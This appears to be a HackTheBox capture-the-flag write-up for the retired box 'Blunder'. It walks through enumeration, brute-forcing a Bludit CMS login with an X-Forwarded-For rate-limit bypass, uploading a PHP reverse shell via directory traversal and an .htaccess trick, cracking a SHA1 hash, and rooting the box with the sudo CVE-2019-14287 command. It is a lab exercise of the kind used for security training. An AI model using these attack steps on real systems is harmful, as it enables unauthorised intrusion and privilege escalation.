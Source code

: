 # Blunder

This is the write-up for the box Blunder that got retired at the 17th October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.191    blunder.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/blunder.nmap 10.10.10.191
```

```
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## Checking HTTP (Port 80)

The website looks like a blog with different facts and none of the links have a file extension such as _html_ or _php_.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.191 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _todo.txt_ that has a potential username of _fergus_:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

It finds the directory _admin_ that forwards to a login page with the title **Bludit**:

![Bludit login form](blunder_web-1.png)

The software [Bludit](https://www.bludit.com/) is a **Content Management System (CMS)** that uses JSON format to store contents and no database.

When trying to login with any credentials, the HTTP response contains a _Cookie header_ and a **CSRF Token** in the data:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
Cookie: BLUDIT-KEY=3c6vkun1o092i1r94bjad1s6f1
(...)

tokenCSRF=d5c13e6904f13f2bc31d89836d20f1261813bf51&username=admin&password=pass123&save=
```

After sending the response twice, the response resolves in a HTTP status code _301 Moved Permanently_ and sends a _Set-Cookie_ header:
```
HTTP/1.1 301 Moved
(...)
X-Powered-By: Bludit
Set-Cookie: BLUDIT-KEY=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0
Location: /admin/login
(...)
```

That means that the **CSRF token** is valid once and a new one has to be generated when trying to bypass the authentication.
There is also a Brute-Force protection, which blocks our IP address after ten unsuccessful login attempts.

### Brute Forcing Authentication to Bludit

To bypass the Brute-Force protection, this [blog article from rastating](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) explains to use the _X-Forwarded-For_ header:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
X-Forwarded-For: 127.0.0.1
(...)
```

Creating a custom wordlist from the blog with **CeWL**:
```
cewl http://10.10.10.191 > wordlist.txt
```

A Python script can be found in this repository that generates new CSRF tokens and brute forces the password of _fergus_ with the custom created wordlist:
```
python3 blunder_bruteforce-bludit.py
```

After a while it gets found and login works:
```
fergus:RolandDeschain
```

![Bludit dashboard](blunder_web-2.png)

### Exploiting Bludit

When searching for public vulnerabilities for **Bludit**, there is an **Arbitrary File Upload** that allows to upload images and change the type to PHP to execute system commands:
```
searchsploit bludit

Bludit - Directory Traversal Image File Upload
```

I will use the PHP reverse shell _php-reverse-shell.php_ from the **Laudanum** scripts.

Uploading the image _(php-reverse-shell.gif)_ file and using **Directory Traversal** in the HTTP request to upload it to the _/tmp_ folder:
```
New Content --> Images --> php-reverse-shell.gif
```
```
POST /admin/ajax/upload-images HTTP/1.1

(...)
../../tmp
-----------------------------89889305719326295832627084894
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

Creating _.htaccess_ file that will make _gif_ files executable:
```
RewriteEngine off
AddType application/x-httpd-php .gif
```

Uploading _htaccess.gif_ and renaming it to _.htaccess_ in the HTTP request and uploading it to the _/tmp_ folder:
```
POST /admin/ajax/upload-images HTTP/1.1
(...)

Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/gif

RewriteEngine off
AddType application/x-httpd-php .gif

(...)

../../tmp
-----------------------------277053525017968010213846080345
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

The uploaded shell can be found in _/bl-content/tmp/php-reverse-shell.gif_ and after browsing there, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In _/var/www/bludit-3.10.0a/_ is another version of **Bludit** and the file _bl-content/databases/users.php_ contains a password for the user _Hugo_:
```
admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
(...)
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```

As the hash has 40 characters, it is a **SHA1 hash** and can be found on public hash databases like [CrackStation](https://crackstation.net/):
> Password120

The user exists on the box and switching users is possible:
```
su hugo
```

### Privilege Escalation to root

When checking the root privileges of _hugo_, it shows that the user can run _/bin/bash_ as everyone other than root:
```
sudo -l

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This configuration has a [vulnerability CVE-2019-14287](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) which makes it possible to bypass this restriction and run commands as root anyway:
```
sudo -u#-1 /bin/bash
```

This starts a shell session as root!
